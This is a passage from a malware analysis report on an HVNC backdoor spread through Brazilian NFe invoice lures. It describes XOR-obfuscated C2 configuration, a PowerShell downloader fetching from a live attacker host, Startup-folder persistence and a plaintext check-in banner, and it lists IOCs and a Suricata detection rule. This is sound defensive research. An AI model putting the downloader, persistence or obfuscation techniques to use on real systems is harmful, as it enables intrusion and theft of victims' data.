
>*Figure 14. IDA Pro - sub_14000E540 pseudocode ( XOR decode, connect logic).*


>*Figure 15. IDA Pro Hex View - raw XOR-encoded C2 host bytes at 0x140023778.*

#### Socket Configuration and Resilient Reconnection

- TCP_NODELAY is set (disables Nagle's algorithm) - typical of latency-sensitive, interactive RAT/HVNC channels rather than bulk exfiltration.

- SO_RCVTIMEO = 30000 ms, SO_SNDTIMEO = 60000 ms, SO_KEEPALIVE enabled.

- WSAIoctl with SIO_KEEPALIVE_VALS (0x98000004) configures a custom keepalive interval of 5000 ms.

- Reconnection uses exponential backoff starting at 1000 ms, doubling on each failure up to a 10,000 ms cap, retried up to 9,999 times before giving up - designed to keep the implant alive through prolonged C2 outages or unstable victim networks.

#### Hidden Desktop / HVNC Bootstrap

After a successful connection, the routine calls GetThreadDesktop / a custom desktop-creation helper (sub_140009300) and spawns three additional worker threads, passing the desktop handle, the socket, and callback function pointers (sub_14000A160, sub_140009840) between them - a classic producer/consumer HVNC architecture: one thread owns the hidden desktop and screen-capture loop (feeding a cv::Mat queue built on the bundled OpenCV library), a second relays operator input (mouse/keyboard) into that desktop, and a third handles the network side of the protocol.

### Nested XOR Obfuscation Scheme (Summary)

The malware does not use a single global deobfuscation routine; different code paths use different single-byte XOR keys for different string classes, which is a deliberate (if lightweight) anti-signature measure - a single “universal decoder” YARA/CyberChef recipe will not recover every string class at once.

| **Context**                                      | **XOR key** | **Example decoded value**   |
|--------------------------------------------------|-------------|-----------------------------|
| C2 host (sub_14000E540)                          | 0x37        | 5.230.249.49                |
| Browser-launch command templates (sub_140019CA0) | 0x13        | cmd.exe /c start chrome.exe |

### sub_140019CA0 - Browser Redirection C2 Command

This function implements a C2 command that forces the victim's browser to open an operator-supplied URL in an operator-chosen browser. It receives a browser-name argument and a URL argument (both presumably delivered over the C2 channel), performs a fast length + magic-number pre-check before decoding the matching XOR-obfuscated command template, appends the URL, and executes the result via CreateProcessA:

| **Argument length** | **Decoded template (XOR 0x13)** |
|---------------------|---------------------------------|
| 6                   | cmd.exe /c start chrome.exe     |
| 7                   | cmd.exe /c start firefox.exe    |
| 4                   | cmd.exe /c start msedge.exe     |
| 5 (variant 1)       | cmd.exe /c start brave.exe      |
| 5 (variant 2)       | cmd.exe /c start opera.exe      |

This capability is most plausibly used for post-infection social-engineering follow-up (e.g. redirecting the victim to a secondary credential-phishing page while HVNC/keylogging runs in the background) or ad-fraud-style forced navigation; it directly explains part of the DIE/Yara “BrowserStealer” classification alongside the genuine Firefox-artifact targeting documented in Section 7.3.2.


>*Figure 16. IDA Pro - sub_140019CA0 branch structure and an XOR-encoded template string.*

### Dynamic Validation and Persistence Mechanism (ANY.RUN)

A second, independently captured sample (delivered under a rotated decoy company name) was detonated in ANY.RUN (Task fafe4d3e-1df4-445c-845c-617eea1b87f0, analyzed 17 July 2026, verdict “Malicious activity,” tags: arch-exec, arch-doc, susp-lnk, auto, generic; top-level indicators: autoStart, multiprocessing). This run both cross-validates the static findings above and resolves the persistence question left open after static review alone.

#### Naming/Decoy Rotation Confirmed

The submitted archive was MOTOROLA_MOB_COM_NFe_2026-07-16_217816240.zip (decoy company rotated from Samsung Eletrônica to Motorola - confirming the decoy identity is randomized per delivery, not fixed), containing a differently-named LNK dropper: NF_Eletronica999147237654.lnk (vs. Comprovante_NFe*.lnk documented in Section 5 - confirming the dropper filename template also rotates across builds).

#### Full Process Chain (as captured)

| **PID** | **Process**               | **Action**                                                                                                                                                 |
|---------|---------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------|
| -      | explorer.exe → WinRAR.exe | Benign - archive opened by the victim/analyst persona (publisher: Alexander Roshal, threat level 0)                                                        |
| 3980    | powershell.exe            | Hidden downloader; GET hxxp://40.124.169.27/dl.php?f=NotaFiscal132421323344432026.exe&k=nfe_valid_access_key_2026_secure → 200 OK, 22.9 MB binary response |
| 5752    | admin.exe                 | Stage-3 NSIS loader (renamed to the victim's %USERNAME%, here “admin”); self-extracts to C:\Users\admin\AppData\Local\Programs\SystemComponents\\          |
| 2752    | UpdateAssistant.exe       | Final payload; connects to 5.230.249.49:27015 (ASGHOSTNET, DE, reputation “unknown”); performs the self-relocation and Startup persistence described below |
| 7536    | notepad.exe               | Benign-looking distraction - auto-opens the decoy dados_nfe.txt on the Desktop while the payload installs in the background                                |

*Note: MoUsoCoreWorker.exe and svchost.exe traffic to crl.microsoft.com / www.microsoft.com observed in the same task are unrelated, whitelisted Windows Update Orchestrator background activity and should not be treated as campaign indicators.*

The 22.9 MB response size for the stage-2 download is an exact match to the NSIS overlay size independently computed from static analysis in Section 6 (0x016E3294 = 23,999,124 bytes ≈ 22.89 MB), cross-validating the static and dynamic findings.

#### Persistence Mechanism

UpdateAssistant.exe (PID 2752) copies itself and its DLL dependencies from the original NSIS extraction path into a second, victim-writable directory, renaming the executable to AppUpdateHelper.exe - matching the AppUpdateHelper_* mutex-name prefix already surfaced via TI Lookup pivoting - then drops a shortcut into the current user's Startup folder pointing at the relocated copy:

| **Dropped file**                                            | **MD5**                          | **SHA-256**                                                      |
|-------------------------------------------------------------|----------------------------------|------------------------------------------------------------------|
| ...\Roaming\Programs\Common\AppUpdateHelper.exe (self-copy) | 9C2DF9A72B0FEEB0B166F0E4AB680851 | DEBF48E690ABD4288E5F76FA7E9F98A9FB3411171EBA82906EF0D2BF1EF2DD6D |
| ...\Start Menu\Programs\Startup\AppUpdateHelper.lnk         | AD85E091181A7F299936C1241023E4F5 | 25DB85830D86CAFBB93A660242F8B4017273CC4612E94DD7A8AF29C948651BBE |
| ...\Roaming\Programs\Common\vcruntime140.dll                | 07BC2F9C4C1B07E1CC013CA0079B31AC | D1F4225DF2CD877DBF130D5668A021DCE3F94118455FF5EC952061C30AFC9CE7 |
| ...\Roaming\Programs\Common\vcruntime140_1.dll              | CD1B08F4930B276AD78853580B76B5C6 | 1F2D41C4AA5DB0BC33EBF7B66D72943A817D7CE6CBE880502A9403823633093F |
| ...\Roaming\Programs\Common\concrt140.dll                   | E6D97CBDBA1CBFF8A5F48648839D3E99 | 54716F0738AF891F283D213B5C8D11B25896BB8EE3097D301EAE718560CF974E |
| ...\Roaming\Programs\Common\msvcp140.dll                    | 4796BB351C00D47717906BBEE4E20837 | 7C26614E1D733892C2DEAC7E245CE115504B1D80592DD0A01B08E3E5A55F89CA |

This is MITRE T1547.001 (Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder), specifically the Startup Folder variant, layered with a further T1036.005 masquerading step at the persistence stage (rename to AppUpdateHelper.exe). This resolves the previously open persistence question (Section 17).

Also of note: the SHA-256 for this build's UpdateAssistant.exe / AppUpdateHelper.exe (DEBF48E6...) does not match the SHA-256 of the sample statically analyzed in Sections 7–8 of this report (5fbfc792...), despite identical behavior, capability set, and code structure. This confirms the payload is recompiled per campaign wave/build (consistent with the near-capture-time PE timestamps observed on both samples) - hash-based blocklisting alone is insufficient and should be paired with the behavioral/YARA detections in Sections 15–16.


>*Figure 17. ANY.RUN dynamic report - process tree and dropped-files view confirming Startup persistence.*

## Capability Summary

| **Capability**                                                                     | **Confidence**   | **Evidence**                                                                                                                                                                                  |
|------------------------------------------------------------------------------------|------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Hidden virtual desktop / HVNC remote control                                       | High             | CreateDesktopA/OpenDesktopA/SetThreadDesktop imports + producer/consumer thread architecture (Section 8.2.4)                                                                                  |
| Screen capture                                                                     | High             | GDI BitBlt/GetDIBits imports + OpenCV cv::Mat queue in sub_14000E540                                                                                                                          |
| Simulated mouse/keyboard input (remote control)                                    | High             | SendInput/PostMessageA/SendMessageA imports                                                                                                                                                   |
| Keystroke monitoring                                                               | Medium-High      | GetAsyncKeyState/GetKeyboardState imports (YARA KeyloggerApi); active polling loop not fully traced                                                                                           |
| Firefox cookie / history / permission theft                                        | High             | Hardcoded cookies.sqlite / places.sqlite / permissions.sqlite strings                                                                                                                         |
| Chromium credential-store theft                                                    | Unconfirmed      | No “Login Data”/“Web Data” plaintext strings found; possible dynamic resolution not yet decoded                                                                                               |
| AV/EDR discovery (non-destructive)                                                 | High             | 20+ hardcoded AV process names + low-priority evasion behavior                                                                                                                                |
| Operator-directed browser redirection                                              | High             | sub_140019CA0, fully decoded (Section 8.4)                                                                                                                                                    |
| Raw-TCP custom C2 protocol (self-identified as “HVNC”, port 27015/27017 per build) | High             | Fully decoded C2 host/socket configuration (Section 8.2.3) plus a captured plaintext handshake naming the protocol itself and transmitting a full victim fingerprint (Section 10.2)           |
| Persistence mechanism                                                              | High - Confirmed | Startup-folder shortcut (T1547.001) pointing to a self-relocated, renamed copy (AppUpdateHelper.exe) in %APPDATA%\Roaming\Programs\Common\\ confirmed dynamically via ANY.RUN (Section 8.5.3) |

## Command-and-Control Infrastructure

### C2 Protocol and Beaconing

The implant communicates over a raw TCP socket (no HTTP/WebSocket framing observed at this layer, unlike the WebSocket-based C2 previously documented by this analyst for a related ValleyRAT/Silver Fox sample) to 5.230.249.49. The connection is kept alive via TCP keepalive with a 5-second interval, TCP_NODELAY is enabled for low-latency interactive control, and the implant will retry indefinitely (up to 9,999 attempts with exponential backoff capped at 10 seconds) rather than giving up after a transient outage. Note: the destination port is not fixed across builds - the sample statically analyzed in Section 8.2.2 hardcodes port 27015, while a separately detonated build was observed live-connecting on port 27017 (Section 10.2). Both values should be treated as campaign IOCs; the port is evidently a per-build configuration field rather than a protocol constant.


>*Figure 18. ANY.RUN network capture - C2 beacon to the Source-engine.*

***Tool:** ANY.RUN Sandbox (Connections tab), interactive/extended-duration detonation*

### C2 Protocol Handshake (Captured Plaintext)

A live Network Stream capture from an ANY.RUN detonation (5.230.249.49:27017, 1.29 KB sent) recorded the implant's initial handshake to the C2 in plaintext before the protocol switches to a binary frame stream. This is the single most significant artifact recovered in this investigation: it directly names the malware's own protocol as “HVNC” and reveals a structured, human-readable check-in banner sent on every new connection, before any operator interaction:

```
P.......%...
HVNC-<CLIENT_ID>
CLIENT_ID:HVNC-<CLIENT_ID>
COMPUTER:<victim hostname>
USER:<victim username>
OS:<victim OS>
VERSION:1.2.0.4.71
MODE:FULL
DETAILS:[SISTEMA] Arquitetura: x64 (AMD64)
[SISTEMA] Processadores: 6
[SISTEMA] CPU: AMD Ryzen 5 3500 6-Core Processor
[SISTEMA] Memória Total: 6138 MB
[SISTEMA] Memória Disponível: 4343 MB
[SISTEMA] Antivírus: Não detectado (modo stealth)
[SISTEMA] Hostname: <victim hostname>
IDENTIFIER_CHANNEL:20
<binary frame stream follows - repeating patterns consistent with RLE/
delta-encoded screen tile data feeding the OpenCV cv::Mat capture
pipeline documented in Section 8.2.4>
```

Field-by-field analysis:

| **Field**                                           | **Observation**                                                                                                                                                                                                                                                                                                            |
|-----------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Protocol self-identification                        | The banner literally begins with the string HVNC-, immediately followed by a CLIENT_ID:HVNC-<id> field - the malware authors themselves label this an HVNC implant, independently confirming the architecture inferred from imports/code review in Section 7.3 and Section 8.2.4                                         |
| VERSION:1.2.0.4.71                                  | An internal build/family version string, not a Windows or product version - a strong, infrastructure-independent campaign/family fingerprint. Recommended as a network-content detection signature (Section 10.2.1) since it should persist across C2 IP/domain rotations                                                  |
| MODE:FULL                                           | Suggests the protocol supports at least one other operating mode (e.g. a lighter-weight/limited mode); not yet observed and worth watching for in future captures                                                                                                                                                          |
| DETAILS: [SISTEMA] block                          | A full victim hardware/environment fingerprint (CPU model, core count, total/available RAM, architecture) sent unprompted at connection time - this is operator-facing telemetry, not just local evasion logic                                                                                                             |
| [SISTEMA] Antivírus: Não detectado (modo stealth) | Directly confirms the purpose of the AV/EDR discovery loop reverse-engineered in Section 8.2.1: the result of that check is reported to the operator's dashboard per victim, rather than only being used for local self-throttling                                                                                         |
| IDENTIFIER_CHANNEL:20                               | Indicates the protocol multiplexes logical channels over a single TCP connection; channel 20 in this capture precedes the binary screen-frame stream, suggesting it is the video/display channel. Other C2 commands (e.g. the browser-redirect capability in Section 8.4) likely use distinct channel IDs not yet captured |


>*Figure 19. ANY.RUN Network Stream view - plaintext HVNC check-in handshake.*

#### Recommended Network-Content Detection Signature

```text
alert tcp any any -> any any (msg:"HVNC-family C2 handshake (NFe/DocuSign cluster)"; \\
content:"HVNC-"; content:"CLIENT_ID:HVNC-"; content:"COMPUTER:"; \\
content:"IDENTIFIER_CHANNEL:"; content:"|5B|SISTEMA|5D|"; \\
content:"VERSION:1.2.0.4.71"; \\
flow:established,to_server; \\
reference:internal,fake-docusign-nfe-hvnc-backdoor; \\
classtype:trojan-activity; sid:9000001; rev:1;)
```

This signature is deliberately built on protocol-structural strings (HVNC-, CLIENT_ID:, IDENTIFIER_CHANNEL:, the [SISTEMA] tag, and the build VERSION string) rather than on the current C2 IP/port, so it should survive infrastructure rotation as long as the operator does not also change the check-in protocol format.

### Infrastructure Footprint

Three distinct hosts were identified across the chain, spanning two hosting providers:

| **IP**        | **Role**                                                                                    | **Provider / ASN**      | **Location**               | **Key Shodan findings**                                                                                                                                                                                                                                                                                       |
|---------------|---------------------------------------------------------------------------------------------|-------------------------|----------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 40.124.169.27 | Stage-2 payload staging (dl.php)                                                            | Microsoft Azure, AS8075 | US (southcentralus region) | MS-RPC Endpoint Mapper exposes NetBIOS hostname “servee” - matches the LNK builder Machine ID (Section 5.3)                                                                                                                                                                                                   |
| 5.230.249.49  | Live C2 endpoint (TCP/27015 or /27017, per-build)                                           | GHOSTnet GmbH, AS12586  | Frankfurt am Main, DE      | Apache/PHP banner returns a Portuguese-language defacement string (“sai daqui cu de burro”); WinRM leaks NetBIOS name VPS69B17B29D73A (Windows Server 2022); port 7071 exposes a self-signed “AnyDesk Client” TLS certificate, suggesting the operator administers this VPS via AnyDesk                       |
| 5.230.54.41   | Secondary delivery host (receitafederal.digital) and unrelated phishing site (aapj.digital) | GHOSTnet GmbH, AS12586  | Frankfurt am Main, DE      | Same /16 block and city as the C2 host; port 80 returns an aaPanel “site stopped” template (multi-tenant hosting panel); port 443 serves a fully SEO-optimized Banco do Brasil corporate-banking phishing clone (“BB Digital PJ”) unrelated in theme to the NFe lure, sharing only the hosting infrastructure |

The Azure/GHOSTnet split (cheap, disposable cloud VM for payload staging vs. a dedicated VPS for persistent C2) indicates a moderately mature operational security posture: staging infrastructure can be burned and rotated cheaply while the C2 host - which needs stable uptime for victim check-ins - sits on infrastructure the operator actively manages via remote-desktop tooling (AnyDesk).

## OSINT and Infrastructure Correlation

Each identified IP was queried in Shodan to confirm hosting attribution, exposed services, and any hostname/certificate leakage useful for pivoting.


>*Figure 20. Shodan host view - 40.124.169.27 (Azure staging host).*


>*Figure 21. Shodan host view - 5.230.249.49 (C2 server).*


>*Figure 22. Shodan host view - 5.230.54.41 (secondary delivery / unrelated phishing host).*

Correlation confidence assessment:

| **Correlation**                                                                                                                     | **Confidence** | **Basis**                                                                                                                                                                                                                                                                                                             |
|-------------------------------------------------------------------------------------------------------------------------------------|----------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| LNK builder host = Azure staging host (both “servee”)                                                                               | High           | Exact NetBIOS/MachineID string match between offline LNK metadata and live Shodan RPC banner                                                                                                                                                                                                                          |
| C2 host and secondary delivery host operated by the same actor/reseller                                                             | Medium         | Same ASN, same city, same /16 block, same multi-tenant hosting stack (aaPanel); not conclusive proof of common operator vs. shared bulletproof-hosting reseller                                                                                                                                                       |
| NFe campaign and Brazilian-bank-themed phishing sites (“BB Digital PJ”, “gerenciadorcaixa.digital”) are the same operation/reseller | Medium-High    | Co-hosted (aapj.digital) plus a second, independently surfaced domain via TI Lookup sharing the identical “gerenciador[banco].digital” naming convention (Section 12.2) - two data points now support a shared kit or reseller; still not conclusive without TLS-certificate reuse or WHOIS registrant confirmation |

## Threat Intelligence Correlation (ANY.RUN TI Lookup)

ANY.RUN's Threat Intelligence Lookup indexes indicators observed across its global sandbox submission corpus, making it possible to find other analysts' or automated submissions that touched the same infrastructure - useful both for campaign-scale confirmation and for finding samples/stages not captured in this local investigation. The query below was executed against the platform and its results are summarized in Section 12.2.

#### Pivot Query Used

```
destinationIP:"5.230.249.49" OR destinationIP:"40.124.169.27"

# Recommended narrower, stage-specific follow-ups (not yet executed):
destinationIP:"5.230.54.41"
domainName:"receitafederal.digital" OR domainName:"aapj.digital" OR domainName:"gerenciadorcaixa.digital"
threatName:"clickfix" AND submissionCountry:"Brazil"
```

#### Results Summary (executed 17 July 2026)

The pivot query returned 2 IPs, 6 URLs, 3 files, 17 events, 7 network-threat alerts, 2 synchronization (mutex) entries, and 10 related analyses, with 90% of submissions originating from Brazil and 10% from the United States, and a 10% “clickfix” threat-name tag and a 10% “Banking” category tag on the result set. Key findings:

- Additional delivery URLs on the C2 host itself: the operator does not use 5.230.249.49 purely for live C2 - it also serves stage-2 payloads directly via the same dl.php endpoint pattern seen on the Azure host, under at least two other lure themes: hxxp://5.230.249.49/dl.php?f=cresol.exe&k=chave_tecl_cresol (Sicredi/Cresol-themed) and hxxp://5.230.249.49/dl.php?f=payed.exe. This is a strong pivot: the query-string convention (f=<payload>&k=<theme-specific key>) identifies the kit independent of the current IP.

- Mutex values recovered dynamically from two prior, independent submissions: Global\AppUpdateHelper_E7A2F (07 Apr 2026, process UpdateAssistant.exe, drop path ...AppData\Local\Programs\Assistente de Instalaca...) and Global\WinSvc_4CF8B2E6 (02 Apr 2026, process SysMaintenance.exe, drop path ...AppData\Local\Programs\SystemMaintenance\\..). Combined with the AppUpdateHelper.exe/.lnk persistence artifacts confirmed in Section 8.5.3, this establishes AppUpdateHelper_* as a stable mutex/process-naming convention across at least three separate builds spanning April–July 2026.

- Dynamic confirmation of the browser-redirection command: three logged events show msedge.exe launched with a --type=util... command line correlated to destinationIP 5.230.249.49, consistent with the operator-directed browser-launch capability decoded statically in Section 8.4 (sub_140019CA0).

- Suricata network-threat alerts of note: an “attempted information leak - hunting: windows pc hostname observed in outbound connection” alert (MITRE T1592) and a “potentially bad traffic - suspicious: possible admin username observed in outbound connection” alert (MITRE T1571), both tied to .../AppData/Roaming/Microsoft/UpdateAssistant/UpdateAssistant.exe - a third drop-path variant distinct from the two documented in Sections 6 and 8.5, suggesting the install directory also rotates across builds. Together these alerts indicate the C2 handshake likely transmits the victim's hostname and username, a behavior not yet confirmed via static code review (see Section 17).

- Related banking-phishing domain: gerenciadorcaixa.digital (Caixa Econômica Federal theme) surfaced as a related URL, sharing the exact “gerenciador[banco].digital” naming convention previously observed on aapj.digital (Banco do Brasil theme, Section 11). This is a second, independent data point supporting the medium–high-confidence infrastructure cluster linking this operator (or a shared hosting reseller) to multiple Brazilian-bank-themed phishing sites.

- Alternate delivery vector: a related submission (NF-e_Serie660_195392445.zip) is tagged clickfix, susp-clipboard and pastebin, indicating the same NFe lure theme is also delivered via the ClickFix technique (fake verification prompt instructing the victim to paste and run a PowerShell command) as an alternative to the LNK-based chain documented in Section 5. Not yet independently analyzed - flagged in Section 14.4 and Section 17.

- Campaign timeline extension: the earliest related sample (SysMaintenance.exe) was submitted 12 March 2026, extending the known active window for this cluster to at least four months prior to this report's primary capture date, rather than being a newly emerged campaign.


>*Figure 23. ANY.RUN TI Lookup - Results Overview for the combined C2/staging IP query.*

